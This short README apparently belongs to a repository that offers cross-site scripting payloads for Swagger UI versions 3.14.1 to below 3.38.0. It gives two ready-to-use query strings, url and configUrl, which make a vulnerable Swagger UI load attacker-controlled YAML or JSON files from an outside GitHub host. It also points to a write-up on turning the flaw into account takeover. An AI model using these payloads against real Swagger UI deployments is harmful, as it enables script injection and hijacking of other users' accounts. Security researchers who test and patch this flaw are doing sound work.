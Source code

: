 # Swagger UI >=3.14.1 < 3.38.0 XSS payload

- Swagger UI version affected: `>=3.14.1 < 3.38.0`

## Payloads

### `url`
`?url=https://raw.githubusercontent.com/VictorNS69/swagger-ui-xss/main/xss-domain.yaml`

### `configUrl`

`?configUrl=https://raw.githubusercontent.com/VictorNS69/swagger-ui-xss/main/config.json`

**More info at**: https://www.vidocsecurity.com/blog/hacking-swagger-ui-from-xss-to-account-takeovers/
